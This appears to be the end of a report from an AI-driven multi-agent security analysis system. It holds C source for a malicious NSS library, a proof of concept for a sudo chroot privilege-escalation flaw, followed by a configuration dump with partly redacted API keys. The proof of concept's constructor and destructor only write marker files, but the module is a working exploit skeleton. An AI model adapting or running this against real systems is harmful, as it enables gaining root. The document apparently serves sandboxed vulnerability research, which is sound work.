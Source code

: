 static void write_file(const char *path, const char *msg) {
    int fd = open(path, O_CREAT|O_WRONLY|O_TRUNC, 0644);
    if (fd >= 0) {
        write(fd, msg, strlen(msg));
        close(fd);
    }
}

__attribute__((constructor))
static void my_ctor(void) {
    // Executed while sudo has pivoted/chrooted into attacker directory
    write_file("/tmp/nss_poc_constructor", "constructor ran\n");
}

__attribute__((destructor))
static void my_dtor(void) {
    // Executed after sudo unpivots, before process exit
    write_file("/tmp/nss_poc_destructor", "destructor ran as root?\n");
}

// Minimal required NSS entry points returning UNAVAIL

enum nss_status _nss_myhack_getpwnam_r(const char *name, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getpwuid_r(uid_t uid, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)uid; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrnam_r(const char *name, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrgid_r(gid_t gid, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)gid; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}




---

rich_console=<console width=99 ColorSystem.TRUECOLOR> openai_api_key='sk-svcacct-...' llm_api_key='sk-...' llm_base_url='https://litellm.faigle.dev' max_reprompts=5 model='openai/gpt-5' model_temperature=1.0 reasoning_model='openai/gpt-5' max_turns=75 session_db_path='./sessions.sqlite' log_level='INFO' trace_name='multi-agent sudo' sandbox_image='vuln-sudo:latest' setup_archive='/home/julian/Desktop/Bachelorarbeit/testdata/screen/upload.tgz' codebase_path='/home/julian/Desktop/Bachelorarbeit/testdata/sudo/codebase' vulnerable_folder='sudo-1.9.17' patched_folder='sudo-1.9.17p1' chroma_path='/home/julian/Desktop/Bachelorarbeit/ivexes/chroma/' embedding_model='intfloat/multilingual-e5-large-instruct' embedding_provider='local'

---

---
*Report generated by IVEXES Multi-Agent Security Analysis System*
